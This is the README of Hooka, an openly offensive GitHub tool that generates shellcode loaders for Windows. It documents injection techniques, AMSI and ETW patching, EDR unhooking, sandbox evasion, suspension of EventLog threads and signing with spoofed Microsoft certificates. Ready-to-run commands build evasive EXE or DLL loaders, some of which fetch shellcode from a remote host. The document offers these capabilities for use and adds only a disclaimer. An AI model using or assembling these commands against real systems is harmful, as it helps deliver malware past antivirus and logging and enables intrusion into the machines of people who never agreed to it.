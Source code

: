 <p align="center">
  <h1 align="center">Hooka</h1>
  <h4 align="center">Shellcode loader generator with multiples features</h4>
  <h6 align="center">Coded with 💙 by D3Ext</h6>
</p>

<p align="center">

  <a href="https://opensource.org/licenses/MIT">
    <img src="https://img.shields.io/badge/license-MIT-_red.svg">
  </a>

  <a href="https://github.com/D3Ext/Hooka/blob/main/CHANGELOG.md">
    <img src="https://img.shields.io/badge/maintained%3F-yes-brightgreen.svg">
  </a>

  <a href="https://github.com/D3Ext/go-recon/issues">
    <img src="https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat">
  </a>

</p>

<p align="center">
  <a href="#introduction">Introduction</a> •
  <a href="#features">Features</a> •
  <a href="#usage">Usage</a> •
  <a href="#library">Library</a> •
  <a href="#disclaimer">Disclaimer</a>
</p>

# Introduction

Hooka is able to generate shellcode loaders with multiple capabilities. It is also based on other tools like [BokuLoader](https://github.com/boku7/BokuLoader), [Freeze](https://github.com/optiv/Freeze) or [Shhhloader](https://github.com/icyguider/Shhhloader), and it tries to implement more evasion features. Why in Golang? Why not?

# Features

This tool is able to generate loaders with this features:

- Multiple shellcode injection techniques:
  - SuspendedProcess
  - ProcessHollowing
  - NtCreateThreadEx
  - EtwpCreateEtwThread
  - NtQueueApcThreadEx
  - No-RWX

- Get shellcode from raw file, PE, DLL or from a URL
- EXE and DLL are supported as output loader formats

- Encrypt shellcode using:
  - AES
  - 3DES
  - RC4
  - XOR

- AMSI and ETW patching (enabled by default)
- Random variables and function names
- Shikata Ga Nai obfuscation (see [here](https://github.com/EgeBalci/sgn))
- Multiple ways to detect sandboxing
- Enable ACG Guard protection
- Block non-Microsoft signed DLLs from injecting into created processes

- Capable of unhooking user-mode hooks via multiple techniques:
  - Classic
  - Full DLL
  - Perun's Fart technique

- ***Phant0m*** technique to suspend EventLog threads (see [here](https://github.com/hlldz/Phant0m))
- Windows API hashing (see [here](https://www.ired.team/offensive-security/defense-evasion/windows-api-hashing-in-malware))
- Sign shellcode loader with fake or real certificates
- Strings obfuscation via Caesar cipher (see [here](https://en.wikipedia.org/wiki/Caesar_cipher))
- Compress code weight using Golang compile and UPX (if it's installed)
- Compute binary entropy of the loader
- Compute MD5, SHA1 and SHA256 checksums to keep track of the loader

# Installation

Just clone the repository like this:

```sh
$ git clone https://github.com/D3Ext/Hooka
$ cd Hooka
$ make
```

After that you will find the binary under the `build/` folder

# Usage

> Help panel
```sh
  _   _                   _              _
 | | | |   ___     ___   | | __   __ _  | |
 | |_| |  / _ \   / _ \  | |/ /  / _` | | |
 |  _  | | (_) | | (_) | |   <  | (_| | |_|
 |_| |_|  \___/   \___/  |_|\_\  \__,_| (_)

Usage of Hooka:
  REQUIRED:
    -i, --input string        payload to inject in raw format, as PE, as DLL or from a URL
    -o, --output string       name of output file (i.e. loader.exe)
    -f, --format string       format of the payload to generate (available: exe, dll) (default exe)

  EXECUTION:
    --proc string      process to spawn (in suspended state) when needed for given execution technique (default notepad.exe)
    --exec string      technique used to load shellcode (default "SuspendedProcess"):
                         SuspendedProcess
                         ProcessHollowing
                         NtCreateThreadEx
                         EtwpCreateEtwThread
                         NtQueueApcThreadEx
                         No-RWX

  AUXILIARY:
    -a, --arch string       architecture of the loader to generate (default amd64)
    -c, --cert string       certificate to sign generated loader with (i.e. cert.pfx)
    -d, --domain string     domain used to sign loader (i.e. www.microsoft.com)

  ENCODING:
    --enc string         encrypts shellcode using given algorithm (available: aes, 3des, rc4, xor) (default none)
    --sgn                use Shikata Ga Nai to encode generated loader (it must be installed on path)
    --strings            obfuscate strings using Caesar cipher

  EVASION:
    --unhook string       unhooking technique to use (available: full, peruns)
    --sandbox             enable sandbox evasion
    --no-amsi             don't patch AMSI
    --no-etw              don't patch ETW
    --hashing             use hashes to retrieve function pointers
    --acg                 enable ACG Guard to prevent AV/EDR from modifying existing executable code
    --blockdlls           prevent non-Microsoft signed DLLs from injecting in child processes
    --phantom             suspend EventLog threads using Phant0m technique. High privileges needed, otherwise loader skips this step
    --sleep               delay shellcode execution using a custom sleep function

  EXTRA:
    --calc              use a calc.exe shellcode to test loader capabilities (don't provide input file)
    --compress          compress generated loader using Golang compiler and UPX if it's installed
    -r, --rand          use a random set of parameters to create a random loader (just for testing purposes)
    -v, --verbose       enable verbose to print extra information
    -h, --help          print help panel

Examples:
  hooka -i shellcode.bin -o loader.exe
  hooka -i http://192.168.1.126/shellcode.bin -o loader.exe
  hooka -i shellcode.bin -o loader.exe --exec NtCreateThreadEx --unhook full --sleep 60 --acg
  hooka -i shellcode.bin -o loader.dll --domain www.domain.com --enc aes --verbose
```

> Generate a simple EXE loader
```sh
$ hooka_linux_amd64 -i shellcode.bin -o loader.exe
```

> Generate a DLL loader
```sh
$ hooka_linux_amd64 -i shellcode.bin -o loader.dll -f dll
```

> Use custom config (various examples)
```sh
$ hooka_linux_amd64 -i shellcode.bin -o loader.exe --hashing --agc --sleep --verbose
$ hooka_linux_amd64 -i shellcode.bin -o loader.exe --exec ProcessHollowing --sgn --strings --blockdlls
$ hooka_linux_amd64 -i http://xx.xx.xx.xx/shellcode.bin --sandbox --sleep --domain www.microsoft.com --verbose
```

# Demo

<img src="https://raw.githubusercontent.com/D3Ext/Hooka/main/assets/demo1.png">

<img src="https://raw.githubusercontent.com/D3Ext/Hooka/main/assets/demo2.png">

# TODO

- Add direct and indirect syscall
- Add Chacha20 cypher to encrypt shellcode
- More OPSEC features
- General improvement

# Library

The official Golang package has most of the already mentioned features and some others. To make use of it, see [here](https://github.com/D3Ext/Hooka/tree/main/examples) and [here](https://github.com/D3Ext/Hooka/tree/main/pkg/hooka)

# References

You can take a look at some of the mentioned techniques here:

```
https://github.com/C-Sto/BananaPhone
https://github.com/timwhitez/Doge-Gabh
https://github.com/Ne0nd0g/go-shellcode
https://github.com/optiv/Freeze
https://github.com/f1zm0/acheron
https://github.com/Enelg52/OffensiveGo
https://github.com/trickster0/TartarusGate
https://github.com/Kara-4search/HookDetection_CSharp
https://github.com/RedLectroid/APIunhooker
https://github.com/plackyhacker/Peruns-Fart
https://github.com/rasta-mouse/TikiTorch
https://github.com/phra/PEzor
https://github.com/S1ckB0y1337/Cobalt-Strike-CheatSheet
https://github.com/chvancooten/maldev-for-dummies
https://blog.sektor7.net/#!res/2021/perunsfart.md
https://teamhydra.blog/2020/09/18/implementing-direct-syscalls-using-hells-gate/
https://www.ired.team/offensive-security/defense-evasion/detecting-hooked-syscall-functions#checking-for-hooks
https://www.ired.team/offensive-security/defense-evasion/how-to-unhook-a-dll-using-c++
https://www.ired.team/offensive-security/defense-evasion/retrieving-ntdll-syscall-stubs-at-run-time
https://www.ired.team/offensive-security/defense-evasion/windows-api-hashing-in-malware
https://winternl.com/detecting-manual-syscalls-from-user-mode/
```

# Disclaimer

Use this project under your own responsability! The author is not responsible of any bad usage of the project.

# License

This project is under [MIT](https://github.com/D3Ext/Hooka/blob/main/LICENSE) license

Copyright © 2024, *D3Ext*



